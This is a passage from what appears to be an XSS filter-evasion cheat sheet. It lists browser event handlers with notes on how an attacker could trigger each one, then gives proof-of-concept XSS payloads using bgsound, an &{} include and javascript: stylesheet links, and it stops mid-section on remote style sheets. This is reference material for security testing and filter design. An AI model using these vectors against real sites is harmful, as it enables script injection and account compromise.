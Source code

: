 91. `onSeek()` (the onreverse event fires when the timeline is set to play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element's ability to play its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

## BGSOUND

```html
<bgsound SRC="javascript:alert('XSS');"></bgsound>
```

## & JavaScript includes

```html
<br SIZE="&{alert('XSS')}" />
```

## STYLE sheet

```html
<link rel="stylesheet" href="javascript:alert('XSS');" />
```

## Remote style sheet

Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:
